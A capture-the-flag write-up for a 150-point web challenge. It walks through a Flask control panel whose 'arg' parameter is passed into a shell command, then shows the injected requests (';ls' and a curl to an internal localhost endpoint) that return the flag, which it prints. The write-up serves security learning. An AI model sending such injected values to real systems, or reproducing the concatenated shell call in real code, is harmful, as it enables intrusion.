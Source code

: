 Control Panel

Point count: 150pts

Provided files: control-panel.zip

Description: Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?

We are presented with a website with source code. Let's examine the main.py file

```
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```

From this, we can see command injection within the second to last line
`return getoutput("/www/destroy_humans.sh " + arg)`


*Command injection: occurs when an application passes unsafe user-supplied data to a system shell*

In this case, the arg variable can be modified to allow shell commands to be ran on the website

We can test this by opening up burpsuite and passing this header:

`GET /?command=destroy_humans&arg=;%20ls HTTP/1.1`

And it works! We are able to see the system files inside!

But where is the flag? If we examine the source code further, there is a file called destroyer.py

```
#!/usr/bin/env python3
import subprocess, json
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

def get_json(content):
	return json.dumps(content).encode()

def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/status':
				resp_ok()
				self.wfile.write(get_json({'status': 'ready to destroy'}))
				return
			elif self.path == "/destroy":
				resp_ok()
				self.wfile.write(get_json({'status': "destruction complete!"}))
				return
			elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()

http_server(('127.0.0.1',3000))
```

The file states that the endpoint `/shutdown` will reply with a json reply of the flag

But how can we grab it? Simply visiting /shutdown via a browser will return a 404 not found.

We can use curl! Since we have command injection, if we pass curl and curl the endpoint from the server's perspective, we can grab the flag

So, your command should look something like this

`GET /?command=destroy_humans&arg=;%20curl%20-s%20localhost:3000/shutdown HTTP/1.1`

*Note: -s was supplied to prevent the server from replying with the download bar that curl usually outputs.*

We need to supply url encoding inside of burpsuite. %20 represents a space.

Once ran, we get the flag!

Final flag: `SIVBGR{g00dby3_ARI4}`

Final command injection exploit:

![image](https://github.com/sa1181405/pbchocolate-private-writeup-making/assets/170969470/c9d3b0c1-67f2-4da6-ba03-23ede1e31dd4)




